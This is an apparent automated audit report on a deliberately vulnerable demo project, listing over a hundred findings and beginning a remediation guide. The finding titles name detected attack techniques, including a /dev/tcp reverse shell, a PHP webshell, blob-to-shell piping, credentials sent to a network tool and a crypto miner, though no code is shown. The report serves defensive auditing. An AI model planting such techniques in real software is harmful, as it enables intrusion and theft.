









# Audit report — vulnerable-demo

- **Scope:** standard · vulnerable-demo
- **Mode:** local · **Ref:** `no-git` · **Date:** 2026-11-09
- **Tool:** PN-Ultra-Audit 1.0.30

## Contents

1. [Executive summary](#resumen)  2. [Charts](#graficos)  3. [Findings table](#tabla)  4. [Step-by-step remediation guide](#guia)  5. [Confirmed findings — detail](#detalle)  6. [Needs review / validation](#revision)  7. [Audit coverage](#cobertura)  8. [Limits & assumptions](#limites)

> **How to read this report.** 1) Read the Quality Gate and charts. 2) Follow the **Step-by-step remediation guide** top to bottom (ordered by risk). 3) Each block lists the affected file:line and the steps. 4) After fixing, re-run `python3 audit.py` and compare: fixed findings disappear. 5) “To review” items are suspicions: confirm where the data comes from before changing code.

<a id="resumen"></a>
## Executive summary

### Quality Gate: ❌ FAILED

| Gate conditions | OK | Value |
|---|---|---|
| Reliability ≥ B | ❌ | D |
| Security ≥ B | ❌ | E |
| Maintainability ≤ 10% debt | ❌ | 27.2% |
| 0 secrets in source | ❌ | 4 |
| Executed coverage units all covered | ✅ | 12/12 |

### Ratings

| | |
|---|---|
| Reliability (bugs) | **D** |
| Security | **E** |
| Maintainability | **D** |
| Technical debt ratio | 27.2% (~19.0 h) |

### Findings by severity

| critical | high | medium | low | info | Total | Needs review / validation |
|---|---|---|---|---|---|---|
| 10 | 32 | 34 | 23 | 4 | 103 | 31 |

### Audited environment

- **Databases:** 1 .sql · app.db: 2 tables
- **Tests:** 3 files · 4 cases · ratio 0.157 · skipped 0 · no-assert files 2
- **Duplication:** 0.0%
- **LOC:** Python 61, JavaScript 21, Solidity 18, PHP 13, TypeScript 11, Swift 9, SQL 4, Shell 2

### Fix priorities

1. **[critical] SEC-002** Shell command execution (PHP) — `app/Http/UserController.php:10` (30 min)
2. **[critical] SEC-003** Shell command execution (Python) — `backend/app.py:25` (30 min)
3. **[critical] SEC-005** Shell command execution (Node) — `backend/server.js:6` (30 min)
4. **[critical] SEC-006** Wallet private key hard-coded — `contracts/.env.example2:1` (30 min)
5. **[critical] SEC-004** Unsafe deserialization — `backend/app.py:43` (45 min)
6. **[critical] SEC-007** `initialize()` can be called by anyone and more than once — `contracts/Vault.sol:26` (45 min)
7. **[critical] SEC-008** Shell decodes a blob and pipes it to a shell — `scripts/setup.sh:1` (60 min)
8. **[critical] SEC-009** Bash reverse shell (/dev/tcp) — `scripts/update.sh:2` (60 min)
9. **[critical] SEC-010** PHP executes request data (webshell) — `web/uploads/shell.php:1` (60 min)
10. **[critical] SEC-001** 1 of 2 sampled `users.password` values do not look hashed — `app.db:1` (120 min)

<a id="graficos"></a>
## Charts

### Confirmed findings by severity



### By type



### Categories with most confirmed findings



### To review, by priority



### Project map: modules, size and findings



### Fix plan (Gantt)



<a id="tabla"></a>
## Findings table

| ID | Sev. | Type | File | Title | Effort |
|---|---|---|---|---|---|
| SEC-001 | critical | vulnerability | `app.db:1` | 1 of 2 sampled `users.password` values do not look hashed | 120 min |
| SEC-002 | critical | vulnerability | `app/Http/UserController.php:10` | Shell command execution (PHP) | 30 min |
| SEC-003 | critical | vulnerability | `backend/app.py:25` | Shell command execution (Python) | 30 min |
| SEC-004 | critical | vulnerability | `backend/app.py:43` | Unsafe deserialization | 45 min |
| SEC-005 | critical | vulnerability | `backend/server.js:6` | Shell command execution (Node) | 30 min |
| SEC-006 | critical | vulnerability | `contracts/.env.example2:1` | Wallet private key hard-coded | 30 min |
| SEC-007 | critical | vulnerability | `contracts/Vault.sol:26` | `initialize()` can be called by anyone and more than once | 45 min |
| SEC-008 | critical | vulnerability | `scripts/setup.sh:1` | Shell decodes a blob and pipes it to a shell | 60 min |
| SEC-009 | critical | vulnerability | `scripts/update.sh:2` | Bash reverse shell (/dev/tcp) | 60 min |
| SEC-010 | critical | vulnerability | `web/uploads/shell.php:1` | PHP executes request data (webshell) | 60 min |
| BUG-001 | high | bug | `mobile/ios/App/Info.plist:1` | iOS: code uses a protected API but Info.plist lacks NSLocationWhenInUseUsageDesc | 10 min |
| BUG-002 | high | bug | `web/tests/checkout.spec.ts:6` | 1 web-first assertion(s) not awaited - they never fail the test | 3 min |
| SEC-011 | high | vulnerability | `.github/workflows/deploy.yml:7` | Pipes environment/credentials to a network tool | 60 min |
| SEC-012 | high | vulnerability | `app/Http/UserController.php:5` | SQL built with string concatenation (PHP) | 20 min |
| SEC-013 | high | vulnerability | `app/Http/UserController.php:6` | Request data echoed without encoding (PHP) | 10 min |
| SEC-014 | high | vulnerability | `app/Http/UserController.php:7` | Object loaded by client-supplied id (check ownership) | 20 min |
| SEC-015 | high | vulnerability | `backend/app.py:5` | Hard-coded credential | 20 min |
| SEC-016 | high | vulnerability | `backend/app.py:6` | Database URL with credentials | 20 min |
| SEC-017 | high | vulnerability | `backend/app.py:12` | SQL built with string formatting (Python) | 20 min |
| SEC-018 | high | vulnerability | `backend/app.py:19` | SQL built with string formatting (Python) | 20 min |
| SEC-019 | high | vulnerability | `backend/app.py:20` | User input rendered as HTML without escaping (Python) | 10 min |
| SEC-020 | high | vulnerability | `backend/app.py:31` | Outbound request to user-controlled URL | 30 min |
| SEC-021 | high | vulnerability | `backend/app.py:39` | File access with user-controlled path | 20 min |
| SEC-022 | high | vulnerability | `backend/app.py:51` | Password hashed with MD5/SHA-1 | 60 min |
| SEC-023 | high | vulnerability | `backend/server.js:4` | User input written straight into HTML response (Node) | 10 min |
| SEC-024 | high | vulnerability | `backend/server.js:5` | SQL built with template/concatenation (JS/TS) | 20 min |
| SEC-025 | high | vulnerability | `backend/server.js:6` | User input written straight into HTML response (Node) | 10 min |
| SEC-026 | high | vulnerability | `backend/server.js:7` | JWT signed with hard-coded secret | 20 min |
| SEC-027 | high | vulnerability | `backend/server.js:8` | Object loaded by client-supplied id (check ownership) | 20 min |
| SEC-028 | high | vulnerability | `config/pool.json:1` | Cryptocurrency miner (stratum / XMRig / CoinHive) | 60 min |
| SEC-029 | high | vulnerability | `contracts/Vault.sol:12` | `withdraw()` updates state AFTER an external call (reentrancy) | 60 min |
| SEC-030 | high | vulnerability | `contracts/Vault.sol:18` | `sweep()` moves value/mints/burns/selfdestructs but has no visible access contro | 60 min |
| SEC-031 | high | vulnerability | `contracts/Vault.sol:22` | Solidity tx.origin authorization | 20 min |
| SEC-032 | high | vulnerability | `contracts/Vault.sol:22` | tx.origin used for authorization (phishing via intermediate contract) | 15 min |
| SEC-033 | high | vulnerability | `contracts/Vault.sol:24` | `pickWinner()` derives randomness from block data (miner/validator-influenced) | 120 min |
| SEC-034 | high | vulnerability | `db/schema.sql:3` | Over-broad GRANT | 20 min |
| SEC-035 | high | vulnerability | `db/schema.sql:4` | Database user password in SQL script | 20 min |
| SEC-036 | high | vulnerability | `frontend/src/App.jsx:2` | Raw HTML sink (innerHTML/document.write) | 15 min |
| SEC-037 | high | vulnerability | `mobile/android/app/src/main/AndroidManifest.xml:2` | Android: debuggable / cleartext | 5 min |
| SEC-038 | high | vulnerability | `web/uploads/shell.php:1` | Dynamic code evaluation | 30 min |
| SEO-001 | high | bug | `web/index.html:1` | Pages without <title> (1 of 1 HTML pages) | 5 min |
| SEO-002 | high | bug | `web/public/robots.txt:1` | robots.txt blocks the whole site (Disallow: /) | 5 min |
| A11-001 | medium | bug | `web/index.html:10` | Image without alt text | 3 min |
| A11-002 | medium | bug | `web/index.html:11` | Click handler on a non-interactive element (keyboard/screen-reader inaccessible) | 10 min |
| BUG-003 | medium | bug | `app.db:1` | Invalid foreign key definition | 30 min |
| BUG-004 | medium | bug | `app.db:1` | Money column `users.balance` uses REAL | 30 min |
| BUG-005 | medium | bug | `app.db:1` | Money column `orders.total` uses REAL | 30 min |
| BUG-006 | medium | bug | `app/Http/UserController.php:9` | Loose comparison in auth/token check | 10 min |
| BUG-007 | medium | bug | `backend/server.js:10` | async callback in forEach (not awaited) | 15 min |
| BUG-008 | medium | bug | `db/schema.sql:1` | Money column `users.price` uses FLOAT | 30 min |
| BUG-009 | medium | bug | `db/schema.sql:2` | Money column `orders.total` uses FLOAT | 30 min |
| BUG-010 | medium | bug | `web/tests/checkout.spec.ts:8` | Focused test committed (`.only` / `fit`) - the rest of the suite is silently ski | 2 min |
| COD-001 | medium | code_smell | `.:1` | Project has no README | 45 min |
| COD-002 | medium | code_smell | `.github/workflows/deploy.yml:1` | CI does not appear to run: tests, lint | 45 min |
| COD-003 | medium | code_smell | `app.db:1` | Table `users` has no PRIMARY KEY | 25 min |
| COD-004 | medium | code_smell | `db/schema.sql:1` | Table `users` has no PRIMARY KEY | 20 min |
| COD-005 | medium | code_smell | `web/api_client.js:5` | Marker says to remove or fix this before production | 20 min |
| SEC-039 | medium | vulnerability | `app.db:1` | SQLite file is world-accessible (0o644) | 5 min |
| SEC-040 | medium | vulnerability | `backend/app.py:35` | Redirect to user-controlled URL | 10 min |
| SEC-041 | medium | vulnerability | `backend/server.js:9` | Non-cryptographic RNG for secrets | 10 min |
| SEC-042 | medium | vulnerability | `contracts/Vault.sol:24` | Solidity randomness from block data | 60 min |
| SEC-043 | medium | vulnerability | `db/schema.sql:1` | Password column `users.password` too short for a modern hash (32) | 30 min |
| SEC-044 | medium | vulnerability | `frontend/src/App.jsx:4` | Secret/password written to logs | 5 min |
| SEM-001 | medium | vulnerability | `web/index.html:1` | Tracking tags found (Google Analytics 4, Meta Pixel) but no consent management d | 120 min |
| SEO-003 | medium | code_smell | `.:1` | No sitemap.xml (or generator) found | 30 min |
| SEO-004 | medium | code_smell | `web/index.html:1` | Pages without meta description (1 of 1 HTML pages) | 5 min |
| SEO-005 | medium | bug | `web/index.html:1` | Pages without viewport meta (not mobile-friendly) (1 of 1 HTML pages) | 5 min |
| TST-001 | medium | test_gap | `.:1` | Android: no unit tests (src/test) for the app code | 240 min |
| TST-002 | medium | test_gap | `.:1` | Android: no instrumented/UI tests (src/androidTest) | 240 min |
| TST-003 | medium | test_gap | `mobile/ios/AppUITests/LoginUITests.swift:1` | Test file `mobile/ios/AppUITests/LoginUITests.swift` defines tests but contains  | 20 min |
| TST-004 | medium | test_gap | `mobile/ios/AppUITests/LoginUITests.swift:1` | iOS: UI tests exist but production code sets no accessibilityIdentifier | 90 min |
| TST-005 | medium | test_gap | `mobile/ios/AppUITests/LoginUITests.swift:3` | iOS: 1 sleep/asyncAfter calls in tests (flaky) | 6 min |
| TST-006 | medium | test_gap | `package.json:1` | Front-end has no unit/component test runner (Vitest/Jest/Karma) | 90 min |
| TST-007 | medium | test_gap | `package.json:1` | package.json has no working `test` script | 5 min |
| TST-008 | medium | test_gap | `tests/test_app.py:1` | Test file `tests/test_app.py` defines tests but contains no assertions | 20 min |
| TST-009 | medium | test_gap | `web/tests/checkout.spec.ts:4` | Fixed sleeps in tests: 2 occurrence(s) in 1 file(s) | 8 min |
| A11-003 | low | bug | `web/index.html:2` | <html> without lang attribute | 2 min |
| BUG-011 | low | bug | `backend/app.py:53` | Mutable default argument that is mutated or leaked | 10 min |
| COD-006 | low | code_smell | `.:1` | No formatter / .editorconfig configured | 20 min |
| COD-007 | low | code_smell | `.:1` | Public API documentation coverage is 0.0% (target 60%) | 15 min |
| COD-008 | low | code_smell | `app.db:1` | Foreign keys declared but PRAGMA foreign_keys is OFF by default | 10 min |
| COD-009 | low | code_smell | `backend/app.py:1` | Public API under-documented in `backend/app.py` (0/12) | 36 min |
| COD-010 | low | code_smell | `backend/app.py:62` | Empty catch/except (swallowed error) | 10 min |
| COD-011 | low | code_smell | `backend/billing.py:1` | Personal machine path hardcoded: /Users/ana/ | 10 min |
| COD-012 | low | code_smell | `contracts/Vault.sol:1` | Floating pragma (^0.8.0): deployed bytecode may differ from what was audited | 5 min |
| COD-013 | low | code_smell | `db/schema.sql:2` | Table `orders` uses MyISAM | 20 min |
| COD-014 | low | code_smell | `web/api_client.js:4` | 1 FIXME/HACK marker(s) in api_client.js | 10 min |
| DEP-001 | low | dependency | `package.json:1` | `package.json` has no lockfile | 5 min |
| DEP-002 | low | dependency | `web/package.json:1` | `web/package.json` has no lockfile | 5 min |
| PER-001 | low | performance | `app.db:1` | Foreign key `orders.user_id` without index | 10 min |
| PER-002 | low | performance | `db/schema.sql:2` | Foreign key `orders.user_id` without index | 10 min |
| SEO-006 | low | code_smell | `web/index.html:1` | Pages without canonical link (1 of 1 HTML pages) | 5 min |
| SEO-007 | low | code_smell | `web/index.html:1` | Pages with zero or multiple <h1> (1 of 1 HTML pages) | 5 min |
| SEO-008 | low | code_smell | `web/index.html:1` | Pages missing Open Graph title/image (1 of 1 HTML pages) | 5 min |
| SEO-009 | low | code_smell | `web/index.html:1` | Pages with ≥3 images lacking width/height (layout shift) (1 of 1 HTML pages) | 5 min |
| SEO-010 | low | code_smell | `web/index.html:1` | Pages with render-blocking <script> (no async/defer) (1 of 1 HTML pages) | 5 min |
| TST-010 | low | test_gap | `.:1` | iOS: code coverage not enabled in scheme/test plan | 10 min |
| TST-011 | low | test_gap | `.:1` | No Slither/Echidna/Medusa/Certora in CI | 90 min |
| TST-012 | low | test_gap | `mobile/ios/AppUITests/LoginUITests.swift:1` | iOS: 1 UI test file(s) do not set continueAfterFailure = false | 2 min |
| COD-015 | info | code_smell | `.cursor/rules/style.mdc:1` | Cursor configuration committed: .cursor | 5 min |
| COD-016 | info | code_smell | `CLAUDE.md:1` | Claude Code configuration committed: CLAUDE.md | 5 min |
| COD-017 | info | code_smell | `backend/utils_ai.py:1` | Comment reveals AI-assisted authoring | 2 min |
| SEO-011 | info | code_smell | `web/public/robots.txt:1` | robots.txt does not reference the sitemap | 2 min |

### Files with most findings

| File | Count |
|---|---|
| `backend/app.py` | 14 |
| `web/index.html` | 12 |
| `app.db` | 8 |
| `backend/server.js` | 8 |
| `contracts/Vault.sol` | 8 |
| `db/schema.sql` | 8 |
| `.` | 8 |
| `app/Http/UserController.php` | 5 |
| `mobile/ios/AppUITests/LoginUITests.swift` | 4 |
| `web/tests/checkout.spec.ts` | 3 |

<a id="guia"></a>
## Step-by-step remediation guide

### 1. Smart contract / crypto security  · **critical**  · 7 confirmed · 0 to review

**What it is.** Patterns that have caused real on-chain losses: missing access control, reentrancy (state updated after an external call), unprotected initializers, unchecked low-level calls, weak randomness, spot-price oracles, signature replay, delegatecall misuse, unpinned/outdated compilers.

